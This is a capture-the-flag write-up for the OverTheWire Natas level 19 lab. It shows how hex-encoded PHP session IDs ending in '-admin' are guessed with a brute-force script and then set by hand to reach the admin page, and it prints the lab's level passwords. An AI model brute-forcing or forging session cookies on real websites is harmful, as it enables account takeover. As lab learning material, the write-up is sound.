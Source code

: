 # Natas Level 18 → Level 19 Obfuscation ≠ Security

## Previous Flag
<b>tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</b>

## Goal
Username: natas19<br>
URL: http://natas19.natas.labs.overthewire.org<br>

This page uses mostly the same code as the previous level, but session IDs are no longer sequential...<br><br>
Please login with your admin account to retrieve credentials for natas20.<br>
Username:<br>
Password:<br>
Login

## What I learned
```
Hex-encoding, base64, or anything similar doesn't make something secure if it’s still guessable
PHP session ID is hex-encoded (e.g., 3f6d2a9a) instead of just 34 but still goes to 640
So just need To Hex number and concatenate w/ hex of -admin

TODO Later: Burp Suite Solution (When I get better) 🧠🧠🧠🧠🧠
https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-20-ed37d1d1e03d
```

## Solution
```
# Put any username and password and get assigned PHPSESSID
F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   3533372d61646d696e

https://gchq.github.io/CyberChef/ ⌨️
From Hex    Input: 3533372d61646d696e
            Output: 537-admin

To Hex      Input: -admin                           # Since front is random hex
            Output: 2d61646d696e                    # Converted to hex

@trungdullc ➜ /workspaces/01noobHacker (main) $ python3 scripts/phpSessionIDBruteForceHex.py ⌨️
PHPSESSID=3237392d61646d696e
PHPSESSID=3238302d61646d696e
PHPSESSID=3238312d61646d696e 👀
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div> 🔐
</body>
</html>

PHPSESSID=3238322d61646d696e
PHPSESSID=3238332d61646d696e
PHPSESSID=3238342d61646d696e
PHPSESSID=3238352d61646d696e
PHPSESSID=3238362d61646d696e
PHPSESSID=3238372d61646d696e
^C ⌨️

# Double Check by login as admin and any password
F12 → Application
Storage → Cookies

Name        Value
PHPSESSID   <Random> → 3238312d61646d696e
F5 (Refresh)

You are an admin. The credentials for the next level are:
Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw 🔐
```

## Flag
<b>p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</b>

## Continue
[Continue](/overthewire/Natas1920.md)